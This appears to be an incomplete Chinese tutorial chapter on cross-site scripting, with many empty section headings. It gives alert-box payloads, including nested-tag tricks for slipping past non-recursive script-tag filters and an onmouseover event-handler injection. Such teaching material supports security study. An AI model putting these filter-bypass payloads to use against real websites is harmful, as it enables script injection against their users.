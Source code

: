 # 02.XSS

##2.1 XSS介绍

###2.1.2 XSS可能出现的地方

##2.2 XSS注入技巧

 **只提供思路，不适用所有情况，根据过滤规则的不同，选择构造不同的playload。**

###2.2.1 屌丝篇
  
####2.2.1.1直接上菜

```javascript
<script>alert('xss');</script>
```

如果你的系统可以让用户那么直接执行javascript脚本，那你就等着哭吧。

####2.2.1.2 过滤script标签

ok，稍微有一丁点安全意识的人都会把script标签过滤掉，过滤的规则会很多，注入一定要根据过滤的规则不同而选择不同的playload，这里尝试讲解两种情况的过滤：
  
  * 过滤script标签本身，内容不过滤
  * 过滤script标签以及包含的所有内容

加入playload如下：
```html
<script>alert('xss');</script><p>正常文档</p>
```

那么第一种情况过滤的结果为：
```html
alert('xss');<p>正常文档</p>
```

而第二种情况过滤的结果为：
```html
<p>正常文档</p>
```

如果系统没有对用户输入进行递归的xss过滤的话，那么第一种情况，我们的playload可以是：
```html
<scr<script>ipt>alert('xss');</scr</script>ipt>
```

而第二种情况，可以尝试这种技巧：
```html
<scr<script></script>ipt>alert('xss');</scr<script></script>ipt>
```

####2.2.1.3 标签事件注入

标签的事件**on(event)**是很容易被利用作为playload的。例如：
```html
<p onmouseover="alert('xss');">鼠标移动到这里触发js脚本！</p>
```

####2.2.1.4

####2.2.1.5

####2.2.1.6

####2.2.1.7

###2.2.2 高帅富篇

##2.3 XSS防注

##2.4 XSS平台：beef-xss

参考文档：OWASP ,维基百科，百度百科
